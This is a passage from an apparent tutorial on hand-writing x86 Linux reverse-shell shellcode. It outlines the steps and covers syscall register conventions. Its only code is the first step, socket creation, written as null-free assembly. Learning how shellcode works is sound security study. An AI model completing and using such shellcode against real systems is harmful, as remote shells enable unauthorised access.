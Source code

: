 Most of this is a repeat of the Bind Shell so there will be a lot of the same details.

The steps are the same as mentioned above:
1. [Creating the socket](#creating-the-socket)
2. [Connect to an IP and port](#connect-to-an-ip-and-port)
3. [Redirect output](#redirect-output)
4. [Execute a shell](#execute-a-shell)
5. [Putting it all together](#putting-it-all-together)

A quick reminder of arguments and calls for assembly:
- EAX is used for the syscall number. As with a lot of calls, EAX will store the return value.
  * Syscall numbers can be found in /usr/include/i386-linux-gnu/asm/unistd_32.h
- EBX is used for the first argument to be passed
- ECX is used for the second argument to be passed
- EDX is used for the third argument to be passed
- ESI is used for the fourth argument to be passed
- EDI is used for the fifth argument to be passed
- Any structs can be made by using the stack and pointing to it's address

### Creating the socket

Sockets are handled through socketcall()

http://man7.org/linux/man-pages/man2/socketcall.2.html
```c
int socketcall(int call, unsigned long *args);
```
The call ids can be found at:
```c 
cat /usr/include/linux/net.h | grep SYS_

#define SYS_SOCKET	 1		/* sys_socket(2)		*/
#define SYS_BIND	   2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	 4		/* sys_listen(2)		*/
#define SYS_ACCEPT	 5		/* sys_accept(2)		*/
``` 
Looking at our C code, we need to call socket(2, 1, 0);

This will translate to:

    EAX - 0x66 for socketcall
    
    EBX - 1 for socket
    
    ECX - address on stack with args 2, 1 0
```asm
; clear registers while avoiding nulls
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

; 0x66 for socketcall
mov al, 0x66
;0x1 for socket
mov bl, 0x1
```
Setting up ECX - our *args parameter - we can use the stack to push the values then make ECX equal the stack pointer's value so that we have the address for the args from the stack.  Note that when using the stack for args in this way, we have to push them in the reverse order due to the way the stack grows towards 0.
```asm
; ecx = 0
push ecx
; ebx = 1
push ebx        
push 0x2
```